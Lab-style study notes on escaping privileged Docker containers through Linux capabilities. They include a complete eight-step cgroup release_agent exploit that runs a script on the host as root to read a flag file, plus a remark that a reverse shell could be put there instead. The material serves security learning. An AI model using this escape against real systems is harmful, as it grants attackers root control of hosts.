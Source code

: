 Understanding Capabilities

At its fundamental, Linux capabilities are root permissions given to processes or executables within the Linux kernel.
These privileges allow for the granular assignment of privileges - rather than just assigning them all.

These capabilities determine what permissions a Docker container has to the operating system.
Docker containers can run in two modes:

- User (Normal) mode
- Privileged mode

In the diagram below, we can see the two different modes in action and the level of access each mode has to the host:

![[Pasted image 20250608151450.png]]

Note how containers #1 and #2 are running in "user/normal" mode, whereas container #3 is running in "privileged" mode.
- Containers in "user" mode interact with the operating system through the Docker Engine.
- Privileged containers, however, do not do this. Instead, they bypass the Docker Engine and directly communicate with the operating system.

## What Does This Mean for Us

Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root on the host.

We can use a utility such as `capsh` which comes with the _libcap2-bin_ package to list the capabilities our container has: `capsh --print` . Capabilities are used in Linux to assign specific permissions to a process. Listing the capabilities of the container is a good way to determine the syscalls that can be made and potential mechanisms for exploitation.

Some capabilities of interest have been provided in the terminal snippet below.

![[Pasted image 20250608151641.png]]

In the example exploit below, we are going to use the _mount_ syscall (as allowed by the container's capabilities) to mount the host's control groups into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.), which details the inner workings of this exploit well.

```
**1.** mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
**2.** echo 1 > /tmp/cgrp/x/notify_on_release
**3.** host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
**4.** echo "$host_path/exploit" > /tmp/cgrp/release_agent
**5.** echo '#!/bin/sh' > /exploit
**6.** echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
**7.** chmod a+x /exploit
**8.** sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
-------
_Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine._
```

## Explaining the Vulnerability

**1.** We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system. Since we can manage "cgroups" as root on the host, we'll mount this to "_/tmp/cgrp_" on the container.

**2**. For our exploit to execute, we'll need to tell the kernel to run our code. By adding "1" to "_/tmp/cgrp/x/notify_on_release_", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt).

**3.** We find out where the container's files are stored on the host and store it as a variable.

**4.** We then echo the location of the container's files into our "_/exploit_" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

**5.** Let's turn our exploit into a shell on the host

**6.** Execute a command to echo the host flag into a file named "flag.txt" in the container once "_/exploit_" is executed.

**7.** Make our exploit executable!

**8.** We create a process and store that into "_/tmp/cgrp/x/cgroup.procs_". When the processs is released, the contents will be executed.